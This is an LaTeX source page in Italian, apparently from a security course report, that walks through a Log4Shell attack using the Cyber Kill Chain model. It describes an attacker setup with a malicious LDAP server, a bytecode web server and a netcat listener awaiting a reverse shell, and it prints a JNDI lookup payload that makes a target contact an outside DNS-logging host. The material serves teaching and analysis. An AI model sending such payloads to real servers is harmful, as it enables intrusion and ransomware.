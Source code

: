 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsection{Macchina attaccante}
La macchina attaccante comprende diversi servizi che vengono eseguiti per interagire con il sistema target. Tra questi si trovano:
\begin{itemize}
    \item Un server LDAP malevolo che ascolta le connessioni sulla porta 1389 e restituisce il path ad un oggetto Java contenente il codice dell'attacco.
    \item Un server web che permette di accedere al bytecode dell'oggetto remoto.
    \item Un listener netcat in attesa sulla porta 9001 di connessioni TCP da parte della macchina vittima.
\end{itemize}


\subsection{Cyber Kill Chain dell'attacco}
L'obiettivo principale dell'attaccante è eseguire un malware sulla macchina della vittima con il fine di corrompere i file presenti in memoria e chiedere un riscatto per il ripristino di questi.
Si descrive ora lo svolgimento dell'attacco mediante il modello Cyber Kill Chain.


\subsubsection{Reconnaissance}
Nella prima fase, l’attaccante interagisce con gli host e con la rete target alla ricerca di un endpoint in ascolto su qualsiasi protocollo che permetta di inviare il payload malevolo (reconnaissance attiva).
Una volta individuata l'applicazione web sulla porta 8080 alla quale inviare richieste HTTP, è opportuno assicurarsi che questa sia effettivamente vulnerabile a Log4Shell.

Il modo più semplice per rilevare se un endpoint remoto è vulnerabile, consiste nell'attivare una query DNS. 
Utilizzando un logger DNS online (ad esempio \href{http://dnslog.cn}{dnslog}), è possibile generare un nome di dominio ed inserirlo nell'URL JNDI di un payload di prova.
\begin{center}
    \verb!${jndi:ldap://fchcia.dnslog.cn/a}!
\end{center}
A questo punto è necessario inviare il payload attraverso una richiesta HTTP,  l'exploit farà sì che il server tenti di recuperare dei dati in remoto, permettendo di rilevare una eventuale attivazione della vulnerabilità.
\`E possibile automatizzare l'operazione attraverso strumenti come i vulnerability scanner reperibili online.
\end{document}
